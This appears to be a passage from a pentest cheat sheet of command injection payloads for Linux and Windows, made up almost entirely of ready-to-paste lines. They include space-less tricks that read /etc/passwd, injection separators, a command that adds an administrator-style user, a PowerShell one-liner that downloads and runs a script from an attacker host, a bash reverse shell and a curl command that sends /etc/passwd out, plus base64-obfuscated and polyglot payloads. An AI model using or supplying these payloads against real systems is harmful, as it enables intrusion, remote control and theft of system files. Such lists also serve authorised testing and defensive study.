# **16. Exploit Without Spaces (Fully Space-less)**

```
{cat,/etc/passwd}
cat</etc/passwd
bash<<<id
```

---

# **17. Filename-Based Execution (Linux)**

```
/bin/bash -c id
/bin/sh -c id
```

---

# **18. Command Injection in Arguments**

```
ping -c 1 google.com;id
python3 -c "import os;os.system('id')"
```

---

# **19. Windows Command Injection Payloads**

### **Basic**

```
& whoami
| whoami
&& whoami
```

### **File Read**

```
type C:\Windows\System32\drivers\etc\hosts
```

### **Add User**

```
net user hacked Pass123! /add
```

### **Reverse Shell**

```
powershell -NoP -W hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker/shell.ps1')"
```

---

# **20. Advanced Payloads (Real-World Pentest)**

### **Reverse Shell (Linux)**

```
bash -i >& /dev/tcp/attacker.com/4444 0>&1
```

### **Data Exfiltration**

```
curl -X POST -d "@/etc/passwd" http://attacker.com/upload
```

### **Command Obfuscation**

```
$(echo aWQ= | base64 -d)
```

### **Polyglot Injection**

```
;id|id&whoami$(id)
```

### **Double Subshell**

```
$($(whoami))
```

---
